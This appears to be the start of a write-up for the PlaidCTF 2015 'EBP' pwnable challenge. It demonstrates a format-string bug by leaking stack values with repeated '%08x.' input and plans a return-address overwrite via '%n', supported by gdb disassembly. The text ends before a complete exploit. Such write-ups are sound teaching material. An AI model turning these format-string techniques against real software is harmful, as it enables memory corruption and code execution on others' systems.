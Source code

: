 **Name**: EBP  
**Points**: 160  
***Type**: Pwnable  
**Description**:  
nc 52.6.64.173 4545  
Download: [%p%o%o%p](http://play.plaidctf.com/files/ebp_a96f7231ab81e1b0d7fe24d660def25a.elf).  
**Hints**: (none)  
**Files**: http://play.plaidctf.com/files/ebp_a96f7231ab81e1b0d7fe24d660def25a.elf  
**CTF**: PlaidCTF 2015

#####

Right off the bat, we can see that this binary does nothing more than just echo back whatever you input. The first thing that comes to mind is "format string vulnerablity", and sure enough:
```
$ ./ebp
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
f76a2ada.f77a2440.0804a080.ffa1fe38.0804852c.00000001.00000000.0804a080.f77a1ff4.00000000.00000000.ffa1fe58.08048557.0804a080.00000400.f77a2440.f77a1ff4.08048580.00000000.ffa1fed8.f7658e46.00000001.ffa1ff04.ffa1ff0c.f77cb860.f77e4821.ffffffff.f77ecff4.080482b1.00000001.

```

Normally, we would now load up our exploit string, look for it on the stack, and use that to easily achieve arbitrary write. We do this by repeating "%08x." and look for stack values that contain "\x\x\x\x\x". Unfortunately, in this case (as we can see above), our string is not be placed on the stack, so we'll have to use another way of achieving our goal (which is to overwrite the return address of the function that calls the format string function).

In order to write where we want to write, we have to first get the target address somewhere on the stack. Then we can write to that address with the "%n" modifier.

Let's load up the binary in gdb and find the call to the format string function:
```
# gdb ebp -q
(gdb) disas main
Dump of assembler code for function main:
   0x08048547 <+0>: push   ebp
   0x08048548 <+1>: mov    ebp,esp
   0x0804854a <+3>: and    esp,0xfffffff0
   0x0804854d <+6>: sub    esp,0x10
   0x08048550 <+9>: jmp    0x8048557 <main+16>
   0x08048552 <+11>:    call   0x8048521 <echo>
   0x08048557 <+16>:    mov    eax,ds:0x804a040
   0x0804855c <+21>:    mov    DWORD PTR [esp+0x8],eax
   0x08048560 <+25>:    mov    DWORD PTR [esp+0x4],0x400
   0x08048568 <+33>:    mov    DWORD PTR [esp],0x804a080
   0x0804856f <+40>:    call   0x80483b0 <fgets@plt>
   0x08048574 <+45>:    test   eax,eax
   0x08048576 <+47>:    jne    0x8048552 <main+11>
   0x08048578 <+49>:    leave  
   0x08048579 <+50>:    ret    
End of assembler dump.
(gdb) disas echo
Dump of assembler code for function echo:
   0x08048521 <+0>: push   ebp
   0x08048522 <+1>: mov    ebp,esp
   0x08048524 <+3>: sub    esp,0x18
   0x08048527 <+6>: call   0x80484fd <make_response>
   0x0804852c <+11>:    mov    DWORD PTR [esp],0x804a480
   0x08048533 <+18>:    call   0x80483c0 <puts@plt>
   0x08048538 <+23>:    mov    eax,ds:0x804a060
   0x0804853d <+28>:    mov    DWORD PTR [esp],eax
   0x08048540 <+31>:    call   0x80483a0 <fflush@plt>
   0x08048545 <+36>:    leave  
```